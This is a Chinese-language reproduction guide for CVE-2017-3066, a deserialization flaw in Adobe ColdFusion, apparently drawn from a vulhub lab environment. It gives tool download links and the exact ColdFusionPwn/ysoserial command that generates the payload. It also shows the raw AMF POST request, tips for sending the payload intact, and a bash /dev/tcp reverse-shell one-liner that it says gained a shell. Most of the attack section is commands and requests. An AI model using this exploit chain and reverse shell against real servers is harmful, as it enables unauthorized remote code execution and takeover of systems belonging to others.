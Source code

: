 # （CVE-2017-3066）Adobe ColdFusion 反序列化漏洞

## 一、漏洞简介

## 二、漏洞影响

Adobe ColdFusion (2016 release) Update 3及之前的版本

ColdFusion 11 Update 11及之前的版本

ColdFusion 10 Update 22及之前的版本

## 三、复现过程

使用[ColdFusionPwn](https://github.com/ianxtianxt/ColdFusionPwnn "ColdFusionPwn")工具来生成POC。

[点击下载ColdFusionPwn](http://wiki.0-sec.org/download/ColdFusionPwn-0.0.1-SNAPSHOT-all.zip "点击下载ColdFusionPwn")

### Usage

```shell
java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-master-SNAPSHOT.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner [-s|-e] [payload type] '[command]' [outfile]
```

[点击下载ysoserial](http://wiki.0-sec.org/download/ysoserial.zip "点击下载ysoserial")

【注意】下载的jar包可能因为时间不同，而更新，包名也就不同。注意将命令中的包名，替换为你下载时候的名字

```shell
java -cp ColdFusionPwn.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/CVE-2017-3066_is_success' poc.ser
```

生成poc.ser文件后，将POC作为数据包body发送给 http://your-ip:8500/flex2gateway/amf Content-Type为application/x-amf

路径不唯一，目前已收集到的为以下两种路径：

/flex2gateway/amf

/messagebroker/amf

```html
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
```

![image](images/img3.png)

### 关于发送的内容编码问题

由于编码问题，如果直接从Notepad++/Notepad里面复制粘贴为body部分，是不成功的，即使返回的状态码是200

### 正确发送方式为：

右击选择Paste From File，上传poc.cer文件

![image](images/img4.png)

再到Raw界面添加HTTP头部，如果成功，并且打算以后还需要用的话，右击选择Copy to File保存

![image](images/img5.png)

进入容器中，发现/tmp/success已成功创建：

![image](images/img6.png)

将POC改成[反弹命令](http://www.jackson-t.ca/runtime-exec-payloads.html "反弹命令")，成功拿到shell：

![image](images/img7.png)

补充一下反弹shell的命令,可以通过 http://www.jackson-t.ca/runtime-exec-payloads.html 在线转换

```shell
bash -i >& /dev/tcp/ip/port 0>&1
```

## 参考链接

https://vulhub.org/#/environments/coldfusion/CVE-2017-3066/
